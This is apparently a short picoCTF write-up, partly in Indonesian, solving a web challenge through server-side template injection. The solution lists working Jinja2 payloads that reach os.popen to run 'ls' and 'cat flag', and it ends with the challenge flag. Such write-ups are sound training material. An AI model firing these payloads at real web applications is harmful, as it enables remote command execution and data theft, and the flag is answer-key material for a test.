 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
  ```bash
  {{config}}

  {{self}} 
  {{_self.env}}
  {{self.env}}
  {{self._templateReference}}

  # 1
  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

  # 2
  {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
  ```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}